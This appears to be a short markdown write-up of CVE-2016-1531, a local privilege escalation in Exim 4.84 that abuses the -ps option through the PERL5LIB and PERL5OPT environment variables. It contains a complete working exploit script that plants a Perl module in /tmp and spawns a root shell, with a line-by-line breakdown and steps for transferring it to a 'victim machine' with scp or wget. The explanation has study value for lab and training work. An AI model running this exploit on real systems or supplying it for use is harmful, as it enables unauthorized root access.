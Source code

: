 # If exim 4.84 is being used, you can take advantage of CVE-2016-1531

## Exploit breakdown ##
This exploit works by taking advantage of how Exim's -ps option behaves in Exim 4.84.
In this version of Exim, the -ps option causes Exim to invoke its embedded Perl interpreter,
or in other words the computer would now execute any Perl code that was part of the command
it was being given, as well as it would do so in a root environment, before dropping privileges.
This meant that Perl environment variables, such as PERL5LIB and PERL5OPT, could now be
passed data that would be allowed to execute, using the -ps option with Exim.
This allows for module injection, where you can:
- Set the PERL5LIB env variable to check in a directory of your choice (PERL5LIB=/tmp)
- Set the PERL5OPT env variable to load a module of your choice
- Use Exim's -ps option to run Perl code as root, which makes the entire attack possible

Combining these two env variables and Exim's -ps option, you can attain arbitrary code
execution, which can allow you to gain a root shell with a simple script,
containing something like system("bin/sh")

## Script that takes advantage of this exploit ##

#!/bin/sh
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /path/to/exim -ps

## Breakdown of script above ##
# First line
- Creates a file named root.pm, located in the /tmp directory: (cat > /tmp/root.pm).
- The << EOF syntax is saying that the content of root.pm will contain the following lines
  and to stop adding lines when EOF is parsed. EOF could be anything, it is simply a signal
  to stop adding lines to root.pm

# Next 6 lines
- This is the script that will be added to the Perl module root.pm, as well as the signal to
  stop adding lines to root.pm (EOF)
- The content is a Perl script that spawns a shell via system("/bin/sh") — and because it is run
  with root privileges, it becomes a root shell.

# Last line is a Linux command:
- PERL5LIB=/tmp tells the Perl interpreter to check the /tmp directory for modules, before 
  everything else
- PERL5OPT=-Mroot injects an invisible command line argument that tells the Perl interpreter to 
  run the Perl module /tmp/root.pm
- /usr/exim/bin/exim -ps will invoke a Perl interpreter and run everything as root which is needed
  for everything to run in the first place

# Final steps
- One local machine:
    1. Create a file that contains the script above
    2. Make it executable with `chmod +x <filename>`
    3. Transfer file to victim machine somehow
        - Either with scp, wget or another method (research if needed)
- On the victim machine run the executable
